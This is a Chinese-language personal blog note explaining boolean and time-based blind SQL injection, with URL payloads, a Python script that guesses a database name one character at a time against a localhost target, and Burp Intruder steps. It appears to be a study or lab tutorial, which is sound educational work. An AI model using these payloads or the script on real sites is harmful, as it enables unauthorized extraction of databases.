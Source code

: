 ```yaml
---
title: sql盲注笔记
toc: true
recommend: 1
uniqueId: '2021-05-04 15:59:48/sql-injection-blind.html'
mathJax: false
date: 2021-05-04 23:59:48
thumbnail:
tags:
categories:
keywords:
---
```

> 什么是盲注？在sql注入点输入sql语句不回显任何数据，只返回了网页处理的结果（使用布尔盲注），甚至不返回结果（设置数据库查询时间，时间盲注）
>
> 盲注是非常繁琐的，需要不断的更改url进行判断，可以用BP的intruder模块配合或者编程（直到我发现了sqlmap）

<!-- more -->

## 布尔盲注

进行布尔盲注一定要分清楚报错的条件，比如有的是数据为空、语句报错时报错，有的只是语句报错时才报错。

### 判断流程

`?id=1 and 's'='p'` 如果报错错则可以使用 `and` 爆破

### 爆破方法(payload)

1. `?id=1 and 构造出想要的数据 =/like 猜想的数据`
2. `?id = if(构造出想要的数据 =/like 猜想的数据, 1, (select table_name from information_schema.tables)) `

> tips：`false` 的的输出必须是 1 column，否则语句报错

### 获取数据库名

目前先使用python进行爆破

```python
#! /usr/bin/env python
# _*_  coding:utf-8 _*_
import requests
import sys
import string
import time

session = requests.session()  # 访问该网站的其他页面时使用一样的cookie, 保持会话
url = "http://localhost:10000/?id="
success_flag = ''  # 查询正确页面标志


def database_name():
    time_start = time.time()
    name = ''
    flag = True
    while flag:
        pos = 1
        old_pos = 0 # 判断是否结束
        for asc_str in list(string.ascii_lowercase)+list('_'):
            payload1 = "if(substr(database(),%d,1) = '%s',1,(select table_name from information_schema.tables))" % (
                pos, asc_str)
            #payload2 = "1 and substr(database(),%d,1) = '%s'" % (
            #    pos, asc_str)
            result = requests.get(url+payload1)
            if success_flag in result.text:
                name += asc_str
                old_pos = pos
                pos += 1
                break
        if old_pos+1 != pos:
            flag = False
            time_end = time.time()

            print('Database name       : {}\nNumber of characters: {}\nTime cost           : {}'.format(
                name, pos, time_end-time_start))

    return name

if __name__ == '__main__':
    database_name()
```

从注入点得到当前数据库的表数

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/bool-blind.png)

使用BP暴出数据库的名字（一个字母一个字母的暴破）

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/bp-sql-blind.png)

爆破该数据库第一张表的名字(也是一个字母一个字母)

```sql
?id=1' and (select table_name 
			from information_schema.tables 
			where table_schema = database() 
			limit 0,1) 
		like 'u%' --+
```

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/bp-sql-blind2.png)

## 时间盲注

如果连网页处理结果都不给的话，还可以设置数据库查询时间进行盲注

比如下面这个页面，不管输入什么都显示一个样

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/sql-injection-blind-time.png)

利用时间注入，当sql语句运行成功时延时2s

```sql
?id=1' and if(
left(database(),1)='x', sleep(2), 0)
--+
```

进BP的intruder模块进行爆破

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/sql-injection-blind-time2.png)

可以看到响应2s的是开头为s的url，所以数据库的首字母为s

注意：因为没有错误提醒，所以一定要注意在url里sql语法上的问题